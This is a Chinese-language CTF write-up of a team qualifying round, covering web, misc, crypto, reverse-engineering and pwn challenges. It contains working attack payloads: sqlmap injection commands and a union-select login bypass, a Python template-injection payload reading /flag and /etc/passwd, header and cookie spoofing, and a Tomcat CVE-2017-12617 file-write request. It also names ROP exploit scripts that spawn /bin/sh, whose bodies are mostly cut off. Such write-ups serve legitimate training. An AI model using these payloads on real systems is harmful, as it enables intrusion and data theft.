

前言
第一天经历了个人解题晋级赛之后，第二天就是团体的解题赛，这一天管理相对第一天比较严一些，进行手机的提交要求，第一天虽然也提交了，明显还是有人使用手机开了热点。这一天的刷题还算是比较顺利，web题目就一道大家都没有解出来之外，其他的也全部搞定。
团体解题晋级赛
有了第一天的经历之后，这次相对的把自己的节奏和心态都稍微的进行调整，解题中相对还算是比较顺利，两个队伍都挺进了决赛。
Web
- revenge_of_sql
sql的复仇，应该是和sql注入有关，首先进行敏感目录扫描，发现.git源码泄露
直接githack 发现 index.php文件存在 过滤空格的盲注注入，直接sqlmap 跑数据库但是发现没有
sqlmap -r 1.txt –random-agent –dbms=mysql –tamper=space2comment.py -v 3 –sql-shell1
2
3
4
5available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sql1
admin xman 登录进入 和源码的逻辑相同没有显示
也可以手工注入登录Username='/**/union/**/select('202cb962ac59075b964b07152d234b70')#&password=123
最后分析一下git历史信息
发现有flag22222.php
使用sqlmap 跑一下
- Web baby python
没有啥思路，直接爆破url参数
发现出现花括号 会出现信息的不完整输出，那应该明确了考点，就是python web的模板注入，可以直接使用函数读文件
也可以使用其他python 沙盒绕过1
2{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag').read() }}等python链进行代码的执行
http://10.98.98.25:5554/404?msg='}}{{ open('/etc/passwd').read() }}


- ezupload
文件上传常规套路：直接大小写、javascript、 改后缀 、截断或这让js失效


http
[步骤]
访问发现提示
不是本地人，不允许访问， 于是修改xff为127.0.0.1或localhost伪造为本地
伪造后提示未登录，查看cookie发现存在login=0的键值，将0修改为1得到flagezpentest
[分析]
这道题，没有队伍解出来，当时进行了目录的扫描，和nmap的扫描，发现了8080 端口tomcat，按题目的说明，应该是一个tomcat溢出漏洞，赛后讨论应该是
CVE-2017-12617(远程代码执行漏洞)影响范围:1
2
3
4
5
6
7Apache Tomcat 9.0.0.M1-9.0.0
Apache Tomcat 8.5.0-8.5.22
Apache Tomcat 8.0.0.RC1-8.0.46
Apache Tomcat 7.0.0-7.0.81
当时没有网，也就没有找到具体的payload ，可以参考P牛的vuln库 任意文件写入1
2
3
4
5
6
7
8
9
10PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
shell
- Check in
考察的是python的cPickle的反序列化漏洞
1 | # !/usr/bin/env python |
misc
- 流量包解密02

题目进行了说明，mac地址就是秘钥，国赛的题目也出现过，当时提取mac之后没有跑出来
，最会拼一下脑洞发现，爆破的时候的数据包的mac 地址就是密码
提示是mac，尝试提取mac不行，结果就是脑洞
1 B4:0B:44:C2:D5:FF xj WPA (1 handshake)

然后发现就是dns apr 做中间人，做了个test.txt success.txt的测试
就没有url了需要再次脑洞一下吧。还是那个师傅的blog
说的是url flag{http://www.wiattack.net/test.txt}
- 如来十三掌
1
夜哆悉諳多苦奢陀奢諦冥神哆盧穆皤三侄三即諸諳即冥迦冥隸數顛耶迦奢若吉怯陀諳怖奢智侄諸若奢數菩奢集遠俱老竟寫明奢若梵等盧皤豆蒙密離怯婆皤礙他哆提哆多缽以南哆心曰姪罰蒙呐神。舍切真怯勝呐得俱沙罰娑是怯遠得呐數罰輸哆遠薩得槃漫夢盧皤亦醯呐娑皤瑟輸諳尼摩罰薩冥大倒參夢侄阿心罰等奢大度地冥殿皤沙蘇輸奢恐豆侄得罰提哆伽諳沙楞缽三死怯摩大蘇者數一遮
与佛论禅解密：MzkuM3gvMUAwnzuvn3cgozMlMTuvqzAenJchMUAeqzWenzEmLJW9
尝试base64解密失败，继续尝试，发现先rot13，在base64ZmxhZ3tiZHNjamhia3ptbmZyZGhidmNraWpuZHNrdmJramRzYWJ9flag{bdscjhbkzmnfrdhbvckijndskvbkjdsab}
Find_your_flag
是一个内存取证的题目
Volatility工具安排一下
遍历文件找一找flag
导出文件发现需要密码，根据提示猜测密码可能在剪切板

倍四家族
这个题是一个7z的带密码的压缩包，想推导密码，你需要点脑洞，根据题目和压缩包，发现密码是flag字符的base64编码，解密出flag.txt
最后写一个脚本进行每一行的解密（参考官方wp）
1 | def get_base64_diff_value(s1, s2): |
得到
1 | W^7?+dv|4DVs&z9Wn^D$Z+2y0W?^k<Y<XW~X>)U7bZK*DVPkY<WPJ |
- 猜测是base85，python跑一下
1 | In [1]: import base64 |
密码
- short_story
一个doc文档，字体有点高低和一个隐藏的矩阵，应该是hill加密
1 | 美国代表团访华时曾有一名官员当着周总理的面说中国人很喜欢低着头走路而我们美国人却总是抬着头走路周总理不慌不忙脸带微笑地说这并不奇怪因为我们中国人喜欢走上坡路而你们美国人喜欢走下坡路 |
- 继续从文档中获得密钥。文档末尾隐藏了一个矩阵，选中更改字体颜色后可以看到。根据这个矩阵，联想到hill加密
先根据密钥矩阵计算逆矩阵，将密文按照2个2个分组，与逆矩阵右乘得到明文。
1 | # coding:UTF-8 |
得到llihllamssihtrednu
题目中说“走下坡路”，所以想到字符串经过反向处理。
得到flag{underthissmallhill}。
- weak_des
给出了加密代码
参考0xptdg战队的py1
2
3
4
5
6
7
8#coding:utf-8
from Crypto.Cipher import DES
import libnum
ct=open('ciphertext','rb').read()
KEY=libnum.n2s(0xe0e0e0e0f1f1f1f1)
IV='13245678'
a=DES.new(KEY,DES.MODE_OFB,IV)
print a.decrypt(ct)
1 | The furthest distance in the world |
个人和团体的re+pwn解题汇总
re
- easy-compare
jadx先打开看MainActivity
1 | public class MainActivity extends AppCompatActivity { |
调用了so中的Check.checkflag函数校验flag，定位到so中的函数
1 | signed int __fastcall Java_com_testjava_jack_fakefunc_Check_checkflag(int a1) |
发现是与一个固定的字符串对比
但是尝试一下程序中提交this_is_easy_so并不对，查看导出表信息，发现存在init_arrary里面对strcmp进行了Inline hook,定位到fake function。发现是aes，key就是动态解密的固定base64字符串。解密得到flag
- Get-A-Way
shell这个二进制数据是一段shellcode，先写程序把它Load起来
1 | FILE *fp = fopen("file.bin", "rb"); |
提示输入key，随便输入一个
1 | F:\Project\LoadShell.exe |
od载入看下
跟踪会发现在0x10000000地址释放出主要模块
1 | 100010CD 85C0 test eax,eax |
在此处下断点分析发现是个迷宫问题，dump下迷宫来
1 | { |
按照迷宫得到的解并不对，我们仔细查看内存发现调用了一些反调试的函数，根据回溯，回溯到
1 | 100010C2 /0F85 D8000000 jnz 100011A0 |
这里会因为反调试来修改迷宫数组，在修改之前dump真正的迷宫
1 | 01 00 01 01 01 01 01 01 01 01 01 00 01 00 00 00 01 01 01 01 01 00 00 00 01 00 01 01 01 01 01 01 |
得到解
ssddwddsssdddssaaassddds
输入得到flag
81dsa65edckyqutiaghjw3w2
- LoginToMe
拖入ida看下就这么些代码
1 | int __cdecl main(int argc, const char **argv, const char **envp) |
对输入的flag进行了条件判断，根据上述条件求解即可。
1 | #-*- coding:utf-8 –*- |
1 | [f = 14644, |
exp1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64#-*- coding:utf-8 –*-
from z3 import *
#定义变量
a = Int('a')
b = Int('b')
c = Int('c')
d = Int('d')
e = Int('e')
f = Int('f')
m = Int('m')
n = Int('n')
p = Int('p')
q = Int('q')
solver = Solver()
# 设置变量范围
solver.add(a >= 0)
solver.add(b >= 0)
solver.add(a < 0xffff)
solver.add(b < 0xffff)
solver.add(c >= 0)
solver.add(d >= 0)
solver.add(c < 0xffff)
solver.add(d < 0xffff)
solver.add(e >= 0)
solver.add(f >= 0)
solver.add(e < 0xffff)
solver.add(f < 0xffff)
solver.add(m >= 0)
solver.add(n >= 0)
solver.add(m < 0xffffffff)
solver.add(n < 0xffffffff)
# 设置表达式
solver.add(a*b == 0x146E4C25)
solver.add(a+b == 0x9a66)
solver.add(c*d == 0xa3a4e22)
solver.add(c+d == 0x666b)
solver.add(e*f == 0x166dfcb4)
solver.add(e+f == 0x9d95)
solver.add(m-n == 0x3BF1F3FD)
solver.add(m%0x10000 +m/0x10000 ==0xDBCD)
solver.add(n%0x10000 -n/0x10000 ==0x3AF4)
#获取结果
print("solving...")
if(solver.check()==sat):
print solver.model()
- 又拍苍蝇
本题修改自山东省赛拍苍蝇，大大降低了难度，只需要将苍蝇拍完毕即可得到Flag。每个苍蝇中包含了一个secret值，当苍蝇被拍死的时候（对话框销毁的时候），才会初始化这个secret值，所以就算定位到了苍蝇是否死活的标志位进行强制修改也无效，当拍死的苍蝇数量达到24只的时候，会依次计算每个苍蝇携带的secret值，跟一个全局变量循环右移索引位，然后异或，然后根据索引从这个dowrd中取一位放到flag中。由于添加的花指令，所以需要先去除之后才方便分析，花指令特征
EB14EA50EB0BEA8BC4A8017406EB0BEA??660FD64424EBEBEEEA4C58
脚本如下：
1 |
|
之后od就清晰了，根据success字符串定位到关键地方,cl是索引
1 | 012D30CD B8 775F123C mov eax,0x3C125F77 |
定位初始secret的地方
借助xspy定位消息响应函数
1 | Message map: 0x0058880C (Fly3.exe+ 0x18880c ) |
定位到数组dwKey
1 | void __thiscall CFlyWnd::OnLButtonDown(CFlyWnd *this, unsigned int nFlags, CPoint point) |
1 | DWORD dwXorKey = 0x3c125f77; |
得到flag:204f8ab152a0e8627fd21b01
本题可以不去进项算法分析，直接模拟点击点掉所有苍蝇即可。
1 | BOOL CALLBACK EnumWindowProc(HWND hWnd, LPARAM lParam) |
PWN
- baby_stack
- 没有输出无法leak，没有提供libc，有溢出，考虑ret2dl_resolve
- 可以手组结构，仿造roputils写ret2dl_resolve函数
1 | #coding=utf8 |
- 也可用roputils简化脚本
1 | #coding:utf-8 |
- dragon_game
1 | from pwn import * |
- easy_rop
- 通过__libc_csu_init()函数来构造gadgets
- 通过设置eax为59调用execve(‘/bin/sh’,NULL,NULL)
1 | from pwn import * |
- login
- 存在整数溢出，passwd可以输入409长度，当输入大于260长度时也可符合判定，跳到特定函数即可拿flag
1 | from pwn import * |

Powered by HyperComments